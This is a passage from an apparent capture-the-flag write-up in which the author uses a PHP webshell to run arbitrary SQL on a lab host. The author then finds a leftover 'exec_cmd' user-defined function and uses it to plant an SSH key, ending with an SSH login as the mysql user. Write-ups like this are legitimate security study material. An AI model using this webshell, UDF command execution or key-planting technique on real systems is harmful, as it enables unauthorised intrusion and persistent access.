     if (isset($_REQUEST['db'])) {
        $conn = new mysqli("localhost", "root", "changethis", "ecom") or die("Connect failed: %s\n". $conn -> error);
        $res = mysqli_query($conn, $_REQUEST['db']);
        while ($row = $res->fetch_row()) {
            foreach ($row as $r) {
                echo $r . " ";
            }
            echo "\n";
        }
    }

    ?>
    """



It works:



    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select @@version'
    5.7.30-0ubuntu0.18.04.1 



#### exec_cmd

Eventually I checked the `mysql.func` table, which [stores information
about user-defined functions](https://mariadb.com/kb/en/mysqlfunc-table)
created with the `CREATE FUNCTION UDF` statement. The headers are
`Name, Ret, dl, type`:



    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode 'db=select * from mysql.func;'
    exec_cmd 0 libmysql.so function 



`exec_cmd` isn't a standard MySQL function, but rather a user defined
function (UDF), perhaps left behind by the attacker. Just knowing the
name, it's worth a shot to run something. Command output doesn't seem to
come back (seems like that's an issue with my shell, as `exec_cmd` does
return data, as I'll show in the next section), but it does seem to run,
as running `ping -c 5` takes about five seconds to return.

#### Shell

Just like with the webshell, nothing that sends traffic back to my host
seems to work. But I can guess that since the user had a shell added,
perhaps there's a `.ssh` directory. And it works:



    root@kali# curl -s -G 'http://10.10.10.207/shop/admin/../vqmod/xml/NIBI1.php' --data-urlencode "db=SELECT exec_cmd('echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing\" >> /var/lib/mysql/.ssh/authorized_keys');"
    root@kali# ssh -i ~/keys/ed25519_gen mysql@10.10.10.207
    The authenticity of host '10.10.10.207 (10.10.10.207)' can't be established.
    ECDSA key fingerprint is SHA256:eYvjeWOH3lYrex1T0a/7BQsAv9L4YbZem1T0BGWjtVE.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.207' (ECDSA) to the list of known hosts.
    Last login: Thu Sep  3 11:52:44 2020 from 10.10.14.4
    mysql@compromised:~$
